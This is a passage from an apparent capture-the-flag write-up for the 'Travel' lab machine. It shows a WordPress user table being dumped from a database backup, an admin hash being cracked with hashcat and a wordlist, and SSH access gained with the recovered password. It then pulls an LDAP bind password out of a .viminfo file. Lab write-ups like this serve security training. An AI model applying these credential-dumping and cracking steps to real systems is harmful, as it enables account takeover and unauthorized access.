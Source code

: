 ```
mysql -u****** -p******* --database=wp < backup.sql

use wp
select * from wp_users;

+----+-------------+------------------------------------+---------------+------------------+------------------+---------------------+---------------------+-------------+---------------+
| ID | user_login  | user_pass                          | user_nicename | user_email       | user_url         | user_registered     | user_activation_key | user_status | display_name  |
+----+-------------+------------------------------------+---------------+------------------+------------------+---------------------+---------------------+-------------+---------------+
|  1 | admin       | $P$BIRXVj/ZG0YRiBH8gnRy0chBx67WuK/ | admin         | admin@travel.htb | http://localhost | 2020-04-13 13:19:01 |                     |           0 | admin         |
|  2 | lynik-admin | $P$B/wzJzd3pj/n7oTe2GGpi5HcIl4ppc. | lynik-admin   | lynik@travel.htb |                  | 2020-04-13 13:36:18 |                     |           0 | Lynik Schmidt |
+----+-------------+------------------------------------+---------------+------------------+------------------+---------------------+---------------------+-------------+---------------+
```

We can save that new hash to a file called hashes.txt to crack with hashcat:

```
hashcat -m 400 hashes.txt /usr/share/wordlists/rockyou.txt --force 
```

It decodes to "1stepcloser".

Trying to ssh in with lynik gives us a "public key denied" error, but we can ssh in with the username lynik-admin!

**lynik-admin:1stepcloser**

## Internal Host Enumeration

Looking in lynik-admin's home folder, we see two interesting files: .viminfo and .ldaprc:

.viminfo:
```
...
# Registers:
""1     LINE    0
        BINDPW Theroadlesstraveled
|3,1,1,1,1,0,1587670528,"BINDPW Theroadlesstraveled"
...
```

.ldaprc:
```
HOST ldap.travel.htb
BASE dc=travel,dc=htb
BINDDN cn=lynik-admin,dc=travel,dc=htb
```

We have ldapsearch present on the box, and we can take a look at the /etc/hosts file to see where the ldap server is located:
